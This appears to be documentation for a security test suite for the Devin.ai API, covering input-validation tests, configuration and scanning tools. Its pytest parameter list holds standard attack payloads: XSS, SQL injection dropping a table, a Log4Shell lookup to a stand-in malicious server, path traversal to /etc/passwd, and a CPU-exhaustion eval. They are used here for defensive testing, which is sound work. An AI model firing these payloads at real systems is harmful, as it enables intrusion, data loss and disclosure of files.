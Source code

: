# Security Testing Module Documentation

## Overview

The security testing module evaluates how well the Devin.ai API protects against security threats and vulnerabilities. It tests input validation, authentication, authorization, and error handling to ensure the API maintains data confidentiality, integrity, and availability.

## Test Files

- `src/tests/security/test_input_validation.py`: Tests API handling of potentially malicious inputs

## Key Metrics

- **Input Validation**: How well the API validates and sanitizes inputs
- **Authentication**: How well the API verifies user identity
- **Authorization**: How well the API controls access to resources
- **Error Handling**: How well the API handles errors without exposing sensitive information
- **Data Protection**: How well the API protects sensitive data

## Test Cases

### Input Validation Tests

The `TestInputValidation` class in `test_input_validation.py` contains tests that evaluate how the API handles potentially malicious inputs:

```python
class TestInputValidation:
    """Test cases for input validation security."""
    
    @pytest.mark.parametrize("payload", [
        {"query": "<script>alert('XSS')</script>"},
        {"query": "'; DROP TABLE users; --"},
        {"query": "${jndi:ldap://malicious-server.com/exploit}"},
        {"query": "../../etc/passwd"},
        {"query": "eval(compile('for i in range(10**9): pass', 'string', 'exec'))"},
    ])
    def test_malicious_input_handling(self, api_client, payload):
        """Test handling of potentially malicious inputs."""
        result = api_client.send_query(**payload)
        
        # The API should not crash or expose sensitive information
        assert result["status_code"] not in (500, 501, 502, 503), \
            "Server error indicates potential vulnerability"
        
        # Response should not contain any raw error messages
        if "data" in result:
            response_text = str(result["data"]).lower()
            for keyword in ["exception", "error:", "stacktrace", "traceback", "syntax error"]:
                assert keyword not in response_text, \
                    f"Response contains error information: {keyword}"
    
    def test_large_input(self, api_client):
        """Test handling of extremely large inputs."""
        large_query = "a" * (10 * 1024 * 1024)  # 10MB string
        result = api_client.send_query(query=large_query)
        
        # API should handle large inputs gracefully (reject with 413 or process normally)
        assert result["status_code"] in (200, 413), \
            f"Unexpected status code for large input: {result['status_code']}"
```

## Configuration

Security tests use the following configuration parameters from `src/config/config.py`:

```python
DEFAULT_CONFIG = {
    "security": {
        "scan_timeout_seconds": 300,        # Timeout for security scans
        "csrf_protection_enabled": True,    # Whether CSRF protection should be enabled
        "input_validation_level": "strict", # Level of input validation (strict, moderate, lenient)
    },
    # ... other configuration sections
}
```

## Running Security Tests

To run all security tests:

```bash
pytest src/tests/security/
```

To run a specific security test:

```bash
pytest src/tests/security/test_input_validation.py::TestInputValidation::test_malicious_input_handling
```

### Additional Security Tools

The framework integrates with several security tools:

1. **Bandit**: Static code analysis for Python security issues

   ```bash
   bandit -r src/
   ```

2. **Safety**: Checks Python dependencies for known vulnerabilities

   ```bash
   safety check -r requirements.txt
   ```

3. **OWASP ZAP** (if available): Dynamic application security testing

   ```bash
   python -m src.tests.security.zap_scanner --target=https://api.devin.ai
   ```

## Interpreting Results

Security test results include:

- **Pass/Fail Status**: Whether the API passed security tests
- **Vulnerability Details**: Information about identified vulnerabilities
- **Severity Ratings**: High, medium, or low severity for each issue
- **Remediation Suggestions**: Recommendations for fixing security issues

## Security Best Practices

When extending the security tests, follow these best practices:

1. **Never Include Real Credentials**: Use dummy credentials for testing
2. **Isolate Tests**: Run security tests in isolated environments
3. **Limit Test Scope**: Avoid tests that could impact production systems
4. **Report Responsibly**: Follow responsible disclosure for any vulnerabilities found
5. **Regular Updates**: Keep security tests updated with new attack vectors

## Extending Security Tests

To add new security tests:

1. Create a new test file in the `src/tests/security/` directory
2. Import the necessary modules and fixtures
3. Define test cases that evaluate specific security aspects
4. Assert that the API handles security threats appropriately

Example of a new security test:

```python
def test_authentication_required(api_client_no_auth):
    """Test that authentication is required for protected endpoints."""
    # Create a client without authentication
    result = api_client_no_auth.send_query(query="Test query")
    
    # Assert that the request is rejected with an authentication error
    assert result["status_code"] in (401, 403), \
        f"Expected authentication error, got {result['status_code']}"
```

## Related Modules

- [API Client](./api_client.md): Documentation for the Devin.ai API client used in tests
- [Configuration](./configuration.md): Documentation for the configuration system
